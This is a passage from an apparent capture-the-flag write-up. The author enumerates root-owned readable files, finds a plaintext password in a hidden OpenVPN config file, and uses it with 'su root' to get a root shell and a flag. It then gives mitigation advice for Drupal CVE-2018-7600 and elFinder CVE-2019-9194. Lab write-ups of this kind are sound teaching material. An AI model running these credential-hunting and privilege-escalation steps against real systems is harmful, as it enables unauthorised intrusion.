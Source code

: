```terminal
                                                                            
╔══════════╣ Readable files belonging to root and readable by me but not world readable                                                                                                       
-rw-r----- 1 root dip 1093 Jul 31  2020 /etc/ppp/peers/provider             
-rw-r----- 1 root ch 29 Aug  1  2020 /etc/openvpn/client/.config/.5OBdDQ80Py
-rw-r----- 1 root dip 656 Jul 31  2020 /etc/chatscripts/provider 
```

There are 3 files that we have permission to read.

The config file of openvpn sounds interesting, let's read it.

```text
user1@chilakiller:~$ cat /etc/openvpn/client/.config/.5OBdDQ80Py
hUqJ2
ChilaKill3s_Tru3_L0v3R
```

We might have just found a password, let's see if it works with user root.

```terminal
user1@chilakiller:~$ su root
Password: 
root@chilakiller:/home/user1# cd
root@chilakiller:~# ls
FLAG2.txt

```

And it did, we got a root shell!

## **Prevention and Mitigation**

### CVE-2018-7600

Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations.

This vulnerability not only gave us the ability to run command on the system but we were able to use it to get a reverse shell. This would allow an attacker to read, modify and delete all tha data of the website.

How to fix:

- upgrade to the most recent version of drupal
- Apply the patch provided by drupal for the specific version you are using.

### CVE-2019-9194

elFinder before 2.1.48 has a command injection vulnerability in the PHP connector.

- Update to the latest version of elFinder

### Passwords
